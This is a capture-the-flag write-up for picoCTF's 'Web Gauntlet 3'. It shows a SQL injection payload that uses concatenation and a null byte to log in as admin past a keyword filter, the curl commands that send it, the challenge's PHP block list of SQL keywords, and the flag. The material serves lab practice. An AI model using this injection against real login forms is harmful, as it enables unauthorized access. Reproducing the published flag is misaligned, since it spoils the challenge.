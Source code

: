 # Web Gauntlet 3

## Problem

> Last time, I promise! Only 25 characters this time. Log in as admin Site: <http://mercury.picoctf.net:32946/> Filter: <http://mercury.picoctf.net:32946/filter.php>

## Solution

1. The solution to this challenge is completely identical to my solution to [Web Gauntlet 2](../Web%20Gauntlet%202/README.md).

2. The solution query is `user=ad'||'min'%00` and it can be sent using cURL like so: `curl --data "user=ad'||'min'%00&pass=a" http://mercury.picoctf.net:32946/index.php --cookie "PHPSESSID=n11ugic3f920cjhj6cacohmheg" --output -` The flag can be retrieved using this command: `curl http://mercury.picoctf.net:32946/filter.php --cookie "PHPSESSID=n11ugic3f920cjhj6cacohmheg" | grep picoCTF`. See [Web Gauntlet 2](../Web%20Gauntlet%202/README.md) for more information.

3. The code for the filter and the flag are shown in `/filter.php` when the login is bypassed:

    ```php
    <?php
    session_start();

    if (!isset($_SESSION["winner3"])) {
        $_SESSION["winner3"] = 0;
    }
    $win = $_SESSION["winner3"];
    $view = ($_SERVER["PHP_SELF"] == "/filter.php");

    if ($win === 0) {
        $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
        if ($view) {
            echo "Filters: ".implode(" ", $filter)."<br/>";
        }
    } else if ($win === 1) {
        if ($view) {
            highlight_file("filter.php");
        }
        $_SESSION["winner3"] = 0;        // <- Don't refresh!
    } else {
        $_SESSION["winner3"] = 0;
    }

    // picoCTF{k3ep_1t_sh0rt_ef4a5b40aa736f5016b4554fecb568d0}
    ?>
    ```

### Flag

`picoCTF{k3ep_1t_sh0rt_ef4a5b40aa736f5016b4554fecb568d0}`
